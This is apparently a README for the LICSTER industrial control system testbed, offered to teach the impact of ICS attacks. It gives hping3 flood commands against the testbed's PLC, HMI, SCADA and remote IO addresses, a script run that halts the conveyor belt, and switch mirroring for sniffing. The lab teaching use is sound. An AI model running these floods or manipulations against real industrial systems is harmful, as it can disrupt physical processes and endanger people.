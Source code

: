 # Attacks 
For the LICSTER testbed, we provide some basic attack examples,
to understand the impacts of ICS attacks.

## Flooding
[hping3](https://linux.die.net/man/8/hping3) is common tool to send custom TCP/IP packets.
In this scenario, it is used for DoS/flooding attacks.

Flooding of the Remote IOs:
```zsh
sudo hping3 --flood 192.168.0.51
sudo hping3 --flood 192.168.0.52
```

Flooding of the PLC:
```zsh
sudo hping3 --flood 192.168.0.30
```

Flooding of the HMI:
```zsh
sudo hping3 --flood 192.168.0.20
```

Flooding of the SCADA system:
```zsh
sudo hping3 --flood 192.168.0.10
```

## Attack the convey belt
This scenarios will demonstrate, how the convey belt could b inflamed.
For this, start a regular order on the HMI.
After this, the attack can be started:

```zsh
sudo ./conveyer_belt.py 
```

The convey belt should stop, after the punching process.

## Attack on the manual control
Start python with the corresponding LICSTER client:
```zsh
python3 -i client.py
>>> 
```

E.g. execute an order over python:
```zsh
setOrder(1) 
```

## Using the mirror port
The default IP of the TP-Link switch is [http://192.168.0.1/](http://192.168.0.1/).
Set the mirror port on PORT 8 and activate mirroring from PORT 1-7.
After this, you can connect to PORT 8 and will see all network traffic of the testbed.

<table align="center"><tr><td align="center" width="9999">
<img src="images/order_wireshark.png" width=70%></img>
</td></tr></table>


